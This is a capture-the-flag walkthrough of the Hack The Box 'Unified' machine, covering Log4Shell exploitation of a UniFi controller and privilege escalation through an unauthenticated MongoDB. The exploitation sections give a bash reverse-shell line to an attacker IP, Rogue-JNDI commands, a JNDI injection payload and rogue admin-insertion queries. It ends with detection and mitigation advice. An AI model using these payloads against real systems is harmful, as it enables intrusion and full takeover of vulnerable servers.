










## 🔗 Attack Chain Summary

1. Nmap scan identified UniFi services
2. Version enumeration revealed Log4Shell vulnerability
3. Exploited JNDI injection → Reverse shell as `unifi`
4. Accessed unsecured MongoDB instance
5. Created new admin user
6. Retrieved SSH credentials from web interface
7. Logged in as root via SSH

# HTB Write-up: Unified (Log4Shell & MongoDB PrivEsc)

A technical walkthrough of exploiting **CVE-2021-44228 (Log4Shell)** in a UniFi Network Application environment, including MongoDB manipulation and vertical privilege escalation.

---

## 📊 Machine Overview

| Attribute | Details |
| :--- | :--- |
| **Box/Challenge** | Unified |
| **Target IP** | `10.129.101.35` |
| **OS** | Linux |
| **Key Vulnerabilities**| Log4Shell (CVE-2021-44228), MongoDB Misconfiguration |

 ---
 
 ## 1. Reconnaissance & Enumeration
 The initial phase began with a network scan to identify open ports and running services on the target.
 
 ### Nmap Scan
 An `nmap` scan was performed to get a detailed service version enumeration.
 ```bash 
 nmap -sC -sV 10.129.101.35
 ```  
 
 
The scan results revealed several open ports:

| Port | State | Service | Version |
| :--- | :--- | :--- | :--- |
| **22/tcp** | open | ssh | OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 |
| **6789/tcp** | open | ibm-db2-admin? | Ubiquiti UniFi Controller |
| **8080/tcp** | open | http | Apache Tomcat |
| **8443/tcp** | open | ssl/http | Nagios NSCA |

 ### Web Enumeration 
 Navigating to `http://10.129.101.35:8080` automatically redirected to a login panel at `https://10.129.101.35:8443/manage`. 
 
 
 
 - The web page identified the running software as **"UNIFI 6.4.54"**.
 
A quick search for vulnerabilities in this specific version of the Unifi Network Application immediately pointed to the critical **Log4Shell (CVE-2021-44228)** vulnerability. Further research confirmed that the `/api/login` endpoint, specifically the `remember` parameter, was a known injection point.

 ## 2. Initial Foothold: Log4Shell Exploitation
 With a clear vulnerability identified, the next step was to gain initial access by exploiting Log4Shell to achieve Remote Code Execution (RCE).

### Step 1: Prepare the Malicious LDAP Server 
We used `Rogue-JNDI` to serve a malicious JNDI payload that forces the target to connect back to us and execute a reverse shell. First, we create a Base64-encoded reverse shell payload.

```bash
# Replace [ATTACKER_IP] and [PORT] with your details
echo 'bash -c "bash -i >& /dev/tcp/[ATTACKER_IP]/4444 0>&1"' | base64
``` 

**Resulting Base64 String:** `YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yLzQ0NDQgMD4mMSI=` (Example)
Next, we set up the Rogue-JNDI server to serve this payload.
```bash
# 1. Clone the repository
 git clone https://github.com/veracode-research/rogue-jndi.git
 cd rogue-jndi
# 2. Build the tool (requires Maven) mvn package
# 3. Run Rogue-JNDI with our payload
# The command format is: "bash -c {echo,BASE64_PAYLOAD}|{base64,-d}|{bash,-i}" java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFza...MSI=}|{base64,-d}|{bash,-i}" --hostname "[ATTACKER_IP]"
 ```
 This starts LDAP and HTTP services, ready to serve our payload.
 
 
 
 ### Step 2: Set Up a Netcat Listener
 On our attacker machine, we start a listener to catch the incoming reverse shell. 
 ```bash 
 nc -nlvp 4444
```

### Step 3: Triggering the Vulnerability

**Phase 1: Verification (Out-of-Band)**
Before sending a live reverse shell, it is best practice to verify the vulnerability using an Out-of-Band (OOB) DNS interaction. We intercepted the login request to `https://10.129.101.35:8443/api/login` and injected a JNDI payload pointing to a DNS logger into the `remember` parameter.


*(Note: The payload above successfully triggered a DNS pingback, confirming the target is vulnerable).*

**Phase 2: Executing the Reverse Shell**
Once confirmed, we updated the `remember` parameter payload to point back to our Rogue-JNDI server.
```json
{
  "username": "root",
  "password": "root",
  "remember": "${jndi:ldap://10.10.17.85:1389/o=tomcat}",
  "strict": true
}
 ```
Upon sending this request, the `nc` listener received a connection, granting us a shell as the `unifi` user. 

 
 
```bash 
listening on [any] 4444 ... 
connect to [ATTACKER_IP] from (UNKNOWN) [10.129.101.35] 59120 
unifi@unifi:/$ whoami 
unifi
```
  
To get a more stable shell, we upgraded it to a fully interactive TTY:
```bash script /dev/null -c bash ```


## 3. Privilege Escalation: MongoDB Manipulation
Now inside the system as `unifi`, we enumerated running processes to find a path to escalate privileges.
```bash ps aux | grep mongo ``` 
This revealed a **MongoDB** instance running locally on port `27117`. Since it was running as part of the Unifi application, it likely contained user data and configuration.

 ### Step 1: Connect to MongoDB and Enumerate Users
 We connected to the database without needing authentication.
```bash mongo --port 27117 ace```

 
 
Inside the `ace` database, we listed the existing admin users. 
```javascript > db.admin.find().forEach(printjson); ```

 

### Step 2: Create a New Administrator User
Instead of cracking existing hashes, we can create our own administrator account. First, we generate a SHA-512 password hash for our new user. 
```bash
# We'll use "Password123" as our new password
 mkpasswd -m sha-512 Password123
 $6$rounds=4096$...[REDACTED_HASH]...
 ```
Then, we insert the new user into the `admin` collection in the database.
```javascript
> db.admin.insert({
 "email": "pwned@local.host",
 "last_site_name": "default",
 "name": "unifi-admin",
 "time_created": NumberLong(1600000000),
 "x_shadow": "$6$rounds=4096$...[REDACTED_HASH]..."
 })
```

### Step 3: Grant Super Admin Privileges
Creating the user is not enough; we must also assign it the "admin" role for a specific site. To do this, we need two pieces of information: our new user's `_id` and the `_id` of the site.
```javascript 
// Get the _id for our newly created user "unifi-admin"
> db.admin.find({name:"unifi-admin"}).forEach(printjson);
// Note down the "admin_id"

// Get the _id for the "default" site
> db.site.find().forEach(printjson);
 // Note down the "site_id"
```
With both IDs, we insert a record into the `privilege` collection to link our user to the site with admin rights. 
```javascript 
> db.privilege.insert({
  "admin_id": "[NEW_ADMIN_ID]",
  "permissions": [], "role": "admin",
  "site_id": "[DEFAULT_SITE_ID]"
});
```
Our user `unifi-admin` is now a full super administrator.

## 4. Root Access and Flags 
With our newly created credentials (`unifi-admin`:`Password123`), we logged into the Unifi web interface at `https://10.129.101.35:8443`.

 ### Finding SSH Credentials
Inside the admin panel, we navigated to **Settings > Site** and looked for the **Device Authentication** section. The application had conveniently stored the SSH credentials for the device's `root` user in plaintext. 



### Gaining Root and Capturing Flags
Using the discovered credentials, we logged in via SSH as `root`.
```bash ssh root@10.129.101.35 ``` 
From there, it was trivial to capture both the root and user flags.

 
 
**Root Flag:** ```bash root@unifi:~# cat /root/root.txt {...root_flag_here...} ```

 
 
**User Flag:** ```bash root@unifi:~# cat /home/michael/user.txt {...user_flag_here...} ```


**🛡️ Detection & Mitigation (SOC Analyst Perspective)**
This machine is a great example of how a single, critical vulnerability like Log4Shell can provide an immediate entry point, while secondary misconfigurations lead to total system compromise.

**How to Detect This Attack**
1. **Network Monitoring:** Monitor for outbound traffic on LDAP (1389) or RMI (1099) ports originating from web servers.
2. **Log Analysis:** Search web access logs for common Log4j JNDI injection patterns (${jndi:ldap://).
3. **Process Creation:** Alert on unexpected child processes spawned by Java (e.g., java spawning /bin/bash or curl).


**Key Takeaways:**
1. **Patch Management is Critical:** The entire compromise was possible because the Unifi software was not updated to a version that patched Log4Shell.
2. **Defense in Depth:** The internal MongoDB instance should have been protected with authentication, which would have stopped the privilege escalation path.
3. **Credential Security:** Storing SSH credentials in plaintext within a web application's settings is a severe security risk.


